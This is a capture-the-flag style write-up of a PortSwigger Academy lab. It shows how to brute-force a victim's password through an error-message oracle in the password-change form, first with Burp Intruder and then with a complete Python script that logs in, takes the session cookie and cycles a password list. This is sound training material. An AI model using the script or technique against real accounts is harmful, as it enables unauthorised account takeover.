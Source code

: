# Lab Password brute-force via password change

Objective:
This lab's password change functionality makes it vulnerable to brute-force attacks. To solve the lab, use the list of candidate passwords to brute-force Carlos's account and access his "My account" page. 

Your credentials: wiener:peter
Victim's username: carlos 

Start by logging in to wiener:peter

![image](https://user-images.githubusercontent.com/90155329/134266372-b44ce988-71f2-4696-8e0b-33b52bf683ba.png)

This opens a new page where I can reset wiener's credentials

I will reset wiener's password to "password123!" and intercept the request 

![image](https://user-images.githubusercontent.com/90155329/134266385-89f25c60-f9c6-4317-bd7d-ba2c371ebe79.png)

Notice that this POST request contains a username field. This that we can send this request to carlos and if we can guess the password, it will change his password. 

We need to do some more testing. 

When I enter the incorrect password and different new password values, I get "Current password is incorrect"

![image](https://user-images.githubusercontent.com/90155329/134266399-5b36fc66-6ab0-492c-b407-823f3e226dd4.png)

When I enter the password correct, and the new password correct, the password gets successfully reset 

When I enter the current password correct, and the new password incorrect, I get "New passwords do not match"

![image](https://user-images.githubusercontent.com/90155329/134266409-917e30cd-97aa-40d5-8961-6b0746ac7f84.png)

This is good, I will send one of the requests to intruder. The goal is to try and get the "New passwords do not match" error for the carlos user. If we can get this error it means that we are able to determine carlos's password 


Burp Intruder can be used to test different payloads on the same page.

I sent one of the password resets to intruder and set the target position on the current-password value. This is where the payloads will rotate.

![image](https://user-images.githubusercontent.com/90155329/134266428-6d6e8dc9-9312-4245-846d-e647bc7e9d75.png)

I loaded the password list as the payload

![image](https://user-images.githubusercontent.com/90155329/134266442-3f13ea48-eeb3-486e-90a1-e305e6bb3ecf.png)

Added the grep option to check values that contain "New passwords do not match"

I started the attack.

![image](https://user-images.githubusercontent.com/90155329/134266454-6f19cbad-e8dc-4f83-81db-2d7cfc57edeb.png)

the password of "austin" returned the "New passwords do not match error"

This means we were able to determine password the password of the carlos user throught hte password reset function.



I restarted the lab and wrote a python script to do the same attack 


![image](https://user-images.githubusercontent.com/90155329/134266480-6d09ede0-8ee3-44f8-a876-976bd66716b2.png)


![image](https://user-images.githubusercontent.com/90155329/134266489-0a67da6b-88cf-4881-a9e6-52c8b4158bbc.png)

![image](https://user-images.githubusercontent.com/90155329/134266508-a6873466-f4a5-4a45-b742-fabef0c78402.png)

`
		'''
This script is used to complete the "Password brute-force via password change" PortSwigger academy lab. I have the credential's of user wiener. There is a vulnerability in the password reset function which allows me to determine the passwords of other users

'''

import sys 
import urllib
import urllib3
import requests
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}

def passBrute(cookie2,url):
	
	with open("passwords.txt","r") as passwords:
		passwords = passwords.readlines()
		
		for password in passwords:
			password = password[:-1]

			cookies = {"session": cookie2}
			data = {"username": "carlos", 
			"current-password": password, 
			"new-password-1": "wrongPass1",
			"new-password-2": "wrongPass232"}

			print("(+) Testing password {}".format(password))
			p = requests.post(url +"/my-account/change-password", data=data,cookies=cookies,proxies=proxies,verify=False)

			if "New passwords do not match" in p.content:
				print("(+)The password of {} worked on Carlos!".format(password))
				exit()

def getSecondCookie(url,p):
	cookie2 = re.findall("[A-Za-z0-9]{32}",str(p.headers))[0]
	passBrute(cookie2,url)

def login(url,cookie1):
	data = {"username": "wiener" , "password": "peter" }
	cookies ={"session": cookie1}
	p = requests.post(url + "/login", data=data, cookies=cookies,verify=False, allow_redirects=False, proxies=proxies)
	getSecondCookie(url,p)

def getFirstCookie(url):
	r = requests.get(url + "/login", verify=False, proxies=proxies)
	cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0] 
	login(url,cookie1)

def main():

	if len(sys.argv) != 2:
		print("(+) Incorrect number of arguments")
		print("(+) Example: {} test.com".format(sys.argv[0]))

	else:
		url = sys.argv[1]
		getFirstCookie(url) 

if __name__ == "__main__":

	main()

`
